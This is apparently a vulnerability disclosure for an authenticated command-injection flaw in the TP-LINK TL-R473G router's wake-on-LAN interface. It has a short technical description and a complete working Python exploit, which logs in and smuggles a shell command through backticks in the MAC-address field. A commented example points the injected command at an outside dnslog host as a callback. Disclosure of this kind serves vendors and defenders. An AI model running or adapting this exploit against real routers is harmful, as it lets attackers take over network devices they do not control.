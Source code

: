 # TP-LINK TL-R473G command_execution

**CVE ID**:  

**CNVD ID**: 

**Vender**: TP-LINK

**Vendor Homepage**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**Affect products**: TL-R473G

**Firmware version**: 2.0.1 Build 220529 Rel.65574n(the latest version)

**Hardware Link**: not the latest version firmware https://smb.tp-link.com.cn/service/detail_download_8644.html

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The TP-LINK TL-R473G due to imperfect filtering rules, remote command execution vulnerabilities are created, and attackers can bypass restrictions through carefully constructed data packets to achieve remote command execution.

## detail

The vulnerability arises in the wake-on-LAN function in the background of the router. After logging in to the background, modify the wake-up traffic packet to complete the background RCE. Below is the code analysis.

![](img/Pasted%20image%2020220725160829.png)



The interface wol_wake that handles wol wake-up extracts usrif from json, passes usrif into s() to simply verify whether it is a null value, and then splices system commands to verify the existence of the network card. Making system calls without filtering special strings results in RCE.



![](img/Pasted%20image%2020220725160444.png)

![](img/Pasted%20image%2020220725160406.png)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

